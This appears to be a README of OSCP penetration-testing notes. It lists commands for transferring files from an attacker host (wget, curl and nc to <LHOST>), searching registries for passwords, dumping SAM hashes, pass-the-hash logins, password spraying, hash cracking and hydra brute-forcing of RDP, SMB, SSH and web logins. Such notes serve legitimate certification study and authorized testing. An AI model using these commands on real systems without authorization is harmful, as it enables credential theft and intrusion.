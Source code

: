 ∂# OSCP-handytools
- (https://github.com/seal9055/oscp-notes/blob/main/README.md)
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- https://github.com/Ak500k/oscp-notes?tab=readme-ov-file

# Wordlists
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

# Post Exploitation Linux
## File upload
- Starting Web Server
`python3 -m http.server 80`

- Filetransfer
```
wget <LHOST>/<file>
curl http://<LHOST>/<file> -o <output-file>
echo "GET /<file> HTTP/1.0" | nc -n <LHOST> 80 > <out-file> && sed -i '1,7d' <out-file>
```

- Secure Filetransfers
```
on target:  ncat -nvlp <port> --ssl > <out-file>
on kali:  ncat -nv <RHOST> <RPORT> --ssl < <file-to-send>
```

# Passwords
- Use chisel to remotely forward port 445, and use winexe to log in
`winexe -U <user>%<password> //<RHOST> cmd.exe`

- Check for passwords
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

- Weak Permissions on Sam Files
`python2 pwdump.py <SYSTEMFILE> <SAMFILE>`

- Cracking the password
`hashcat -m 1000 --force <hash> <wordlist>`

- PTH
`pth-winexe -U '<entire-hash>' //<RHOST> cmd.exe`


# Password Spraying
- Create Password List
`crunchy <length> <length> -t <pw-core>%%%% `

- Spray
`rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`

# Hashcracking
- John
`john --format=<fomrat> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- Hashcat
```
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O  
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O -r /usr/share/hashcat/rules/best64.rule  
cat pw | hashcat -r/usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

# Bruteforcing
RDP Brute Force - Hydra
`hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>`

SMB Brute Force - Hydra
`hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb`

SSH Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>`

HTTP POST Login Form Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f`

HTTP GET Login Form Brute Force - Hydra
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login`

# MISC
SSH Encrypted
`/usr/share/john/ssh2john`

Crack Zip Pw
`fcrackzip -uvDp /usr/share/wordlists/rockyou.txt file.zip`

Tcp Dump
`sudo tcpdump -i tun0 icmp`

Images
- `binwalk <image>`
- `binwalk -Me <image>`

# Tools to make life easier
-> revshell generator
https://www.revshells.com/ 

-> CyberChef
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php
